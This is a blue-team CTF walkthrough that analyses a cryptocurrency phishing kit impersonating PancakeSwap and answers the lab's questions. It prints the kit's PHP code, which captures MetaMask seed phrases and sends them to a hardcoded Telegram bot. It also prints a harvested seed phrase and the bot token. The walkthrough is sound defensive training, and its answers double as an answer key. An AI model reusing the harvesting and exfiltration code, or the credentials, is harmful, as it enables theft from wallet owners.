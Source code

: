 ```yaml
---
title: "GrabThePhisher"
classes: wide
header:
  teaser: /assets/images/Covers/GrabThePhisher.jpeg
ribbon:   Turquoise
description: "A Walkthrough to the Cyberdefenders blue team lab focusing on Threat Intel and Reverse Engineering."
categories:
  - Reverse Engineering
toc: true
---
```




# [**GrabThePhisher**](https://cyberdefenders.org/blueteam-ctf-challenges/95/)
## **Scenario:**

An attacker compromised a server and impersonated https://pancakeswap.finance/, a decentralized exchange native to BNB Chain, to host a phishing kit at https://apankewk.soup.xyz/mainpage.php. The attacker set it as an open directory with the file name "pankewk.zip". 

Provided the phishing kit, you as a soc analyst are requested to analyze it and do your threat intel homework.

**Author:** Milann SHRESTHA     
**Difficulty:** Easy 

## Walkthrough
We start by unziping the file named `c75-GrabThePhisher.zip`, which has been provided, using `cyberdefenders.org` as password.

**Q1:** Which wallet is used for asking the seed phrase?

After decompressing, we are left with a some files including an HTML file, exploring the content we see some wallets, only one off these wallets matches 

![alt text](/assets/images/reverse-engineering/GrabThePhisher/wallets.png)

Exploring the code, We see that only one wallet that has a "onclick" event for its buttons is `MetaMask` which uses JavaScript (vib(1); jj2 = true; jj = true;). This is commonly designed for asking the seed phrase.

![alt text](/assets/images/reverse-engineering/GrabThePhisher/index-3.png)
![alt text](/assets/images/reverse-engineering/GrabThePhisher/index-1.png) 
![alt text](/assets/images/reverse-engineering/GrabThePhisher/index-2.png)

>**Answer:** `MetaMask`

___

**Q2:** What is the file name that has the code for the phishing kit?

Opening the Metamask folder, there are three files: 
- Fonts
- index.html
- metamask.php

Inside the `metamask.php`, we see thee following code:

```php
$date = date("m.d.Y");
$message = "<b>Welcome 2 The Jungle </b> 
    
<b>Wallet:</b> Metamask
<b>Phrase:</b> <code>" . $_POST["data"] . "</code>
<b>IP:</b> " .$_SERVER['REMOTE_ADDR'] . " | " .$geo. " | " .$city. "
<b>User:</b> " . $_SERVER['HTTP_USER_AGENT'] . "";
```
This constructs an HTML-formatted message containing:
- The wallet type (MetaMask is hardcoded).
- The recovery phrase entered by the victim ($_POST["data"]).
- The attacker captures this phrase, which can be used to take full control of the victim’s wallet.
- The IP address, geolocation (country and city), and the user-agent string (browser and device information).

So, this is the file that  has the code for the phishing kit.

>**Answer:** `MetaMask.php`

___

**Q3:** In which language was the kit written?

>**Answer:** `PHP`

___


**Q4:** What service does the kit use to retrieve the victim's machine information?

At the beginning the code, we see the following block:

```php
$request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']); 
$array = json_decode($request);
$geo = $array->country->name_en;
$city = $array->city->name_en;
```

This block of code uses the `Sypex Geo` API to retrieve the geolocation of the user based on their IP address `$_SERVER['REMOTE_ADDR']`, The country and city names are extracted and stored in $geo and $city.

>**Answer:** `Sypex Geo`

___

**Q5:** How many seed phrases were already collected?

later in the code, we see this block:

```php
$_POST["import-account__secret-phrase"]. $text = $_POST['data']."\n";
@file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND);	
```

Which is used to ensures the attacker has a backup of the stolen phrases, the recovery phrase `$_POST['data']` is also logged locally in a file `log.txt` on the server.

Now, we go the `log.txt`, we see that it has 3 already collected phrases:

![alt text](/assets/images/reverse-engineering/GrabThePhisher/logs.png)

>**Answer:** `3`

___

**Q6:** Write down the seed phrase of the most recent phishing incident?

>**Answer:** `father also recycle embody balance concert mechanic believe owner pair muffin hockey`

___

**Q7:** Which medium had been used for credential dumping?

The following block of code uses the `sendTel()` function to send a crafted message to a Telegram chat.

The Telegram Bot API is used here. The bot token `$token` and chat ID `$id` are hardcoded.

It constructs the Telegram API URL and uses `file_get_contents()` to send the message via the bot, delivering the stolen information (recovery phrase, IP, etc.) to the attacker's Telegram account.

```php
sendTel($message);  
	
function sendTel($message){
    $id = "5442785564"; 
    $token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10"; 
    $filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html";
    file_get_contents($filename);
```

>**Answer:** `Telegram`

___

**Q8:** What is the token for the channel?

>**Answer:** `5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10`

___

**Q9:** What is the chat ID of the phisher's channel?

>**Answer:** `5442785564`

___

**Q10:** What are the allies of the phish kit developer?

The attacker had fingerprinted his code with the following greeting massage:

```php
/*
 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
 */
```

>**Answer:** `j1j1b1s@m3r0`

___

**Q11:** What is the full name of the Phish Actor?

Using the following request to the getChat method:

```json
https://api.telegram.org/bot5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10/getChat?chat_id=5442785564
```

The response is:

![alt text](/assets/images/reverse-engineering/GrabThePhisher/api_response.png)

>**Answer:** `Marcus Aurelius`

___

**Q12:** What is the username of the Phish Actor?

>**Answer:** `pumpkinboii`


___
___

<p align="center"><span style="color:#00FFFF;">THE END</span></p>


___
___